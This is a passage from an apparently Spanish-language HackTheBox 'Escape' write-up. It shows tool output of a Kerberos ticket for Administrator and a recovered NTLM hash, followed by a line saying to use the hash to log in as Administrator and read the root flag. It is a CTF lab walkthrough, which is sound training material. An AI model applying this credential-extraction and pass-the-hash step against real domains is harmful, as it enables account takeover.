 ```ruby
  ServiceName              :  krbtgt/sequel.htb
  ServiceRealm             :  SEQUEL.HTB
  UserName                 :  Administrator
  UserRealm                :  SEQUEL.HTB
  StartTime                :  3/2/2023 7:56:10 PM
  EndTime                  :  3/3/2023 5:56:10 AM
  RenewTill                :  3/9/2023 7:56:10 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable
  KeyType                  :  rc4_hmac
  Base64(key)              :  11MbvUjP0nSkxSOrYsM+nA==
  ASREP (key)              :  46C25F427523D3611F7533B287E88287

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : A52F78E4C751E5F5E17E1E9F3E58F4EE
```

En la última línea podemos encontrar el hash NTLM que debemos copiarnos para conectarnos como usuario Admnistrador y poder leer la flag de root.txt

![](/assets/images/HTB/Escape-HackTheBox/14.webp)